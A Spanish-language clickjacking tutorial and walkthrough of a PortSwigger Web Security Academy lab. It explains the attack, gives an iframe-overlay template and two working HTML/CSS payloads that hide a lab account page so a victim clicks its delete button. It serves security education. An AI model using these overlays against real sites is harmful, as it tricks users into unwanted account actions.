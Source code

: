 ## ¿ Que es clickjacking?

El clickjacking es un ataque basado en la interfaz en el que se engaña al usuario para que haga clic en contenido accionable de un sitio web oculto al hacer clic en otro contenido de un sitio web señuelo. Consideremos el siguiente ejemplo:

Un usuario web accede a un sitio web señuelo (quizás se trate de un enlace proporcionado por un correo electrónico) y hace clic en un botón para ganar un premio. Sin saberlo, ha sido engañado por un atacante para que pulse un botón oculto alternativo, lo que da lugar al pago de una cuenta en otro sitio. Este es un ejemplo de ataque de clickjacking. La técnica se basa en la incorporación de una página web invisible y accionable (o varias páginas) que contiene un botón o un enlace oculto, por ejemplo, dentro de un iframe. El iframe se superpone al contenido de la página web señuelo que el usuario espera ver. Este ataque se diferencia de un ataque CSRF en que el usuario debe realizar una acción, como hacer clic en un botón, mientras que un ataque CSRF se basa en falsificar una solicitud completa sin el conocimiento ni la intervención del usuario.

## Cómo construir un ataque básico de clickjacking

La protección contra los ataques CSRF suele proporcionarse mediante el uso de un token CSRF: un número o nonce específico de la sesión y de un solo uso. Los ataques de clickjacking no se mitigan con el token CSRF, ya que la sesión objetivo se establece con contenido cargado desde un sitio web auténtico y todas las solicitudes se realizan dentro del dominio. Los tokens CSRF se colocan en las solicitudes y se envían al servidor como parte de una sesión que se comporta con normalidad. La diferencia con respecto a una sesión de usuario normal es que el proceso se produce dentro de un iframe oculto.

Los ataques de clickjacking utilizan CSS para crear y manipular capas. El atacante incorpora el sitio web objetivo como una capa iframe superpuesta en el sitio web señuelo. A continuación se muestra un ejemplo que utiliza la etiqueta de estilo y los parámetros:

```html
<head>
	<style>
		#target_website {
			position:relative;
			width:128px;
			height:128px;
			opacity:0.00001;
			z-index:2;
			}
		#decoy_website {
			position:absolute;
			width:300px;
			height:400px;
			z-index:1;
			}
	</style>
</head>
...
<body>
	<div id="decoy_website">
	...decoy web content here...
	</div>
	<iframe id="target_website" src="https://vulnerable-website.com">
	</iframe>
</body>

```

El iframe del sitio web de destino se coloca dentro del navegador de manera que se produzca una superposición precisa de la acción de destino con el sitio web señuelo utilizando valores de posición de anchura y altura adecuados. Se utilizan valores de posición absolutos y relativos para garantizar que el sitio web de destino se superponga con precisión al señuelo, independientemente del tamaño de la pantalla, el tipo de navegador y la plataforma. El índice z determina el orden de apilamiento de las capas del iframe y del sitio web. El valor de opacidad se define como 0,0 (o cercano a 0,0) para que el contenido del iframe sea transparente para el usuario. La protección contra el clickjacking del navegador puede aplicar una detección de transparencia del iframe basada en umbrales (por ejemplo, la versión 76 de Chrome incluye este comportamiento, pero Firefox no). El atacante selecciona los valores de opacidad para que se logre el efecto deseado sin activar los comportamientos de protección.

## Lab: Basic clickjacking with CSRF token protection

![20251005152906.png](20251005152906.png)


Para resolver el laboratorio y que la victima elimine su cuenta  

![20251005153714.png](20251005153714.png)

Es necesario crear e ir probando para que quede bien `click me` en el botón que deseamos que la victima presione.

```c
<style>
    iframe {
        position:relative;
        width:1000px;
        height: 600px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top:515px;
        left:60px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0aa7000f031f0cf78085daf2007800df.web-security-academy.net/my-account"></iframe>
```

![20251005160813.png](20251005160813.png)


Ahora debemos cambiar la opacidad del iframe a `0.00001` y no se vea

```c
<style>
    iframe {
        position:relative;
        width:1000px;
        height: 600px;
        opacity: 0.00001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:515px;
        left:60px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0aa7000f031f0cf78085daf2007800df.web-security-academy.net/my-account"></iframe>
```

Luego de ellos solo debemos guardar y enviar a la victima.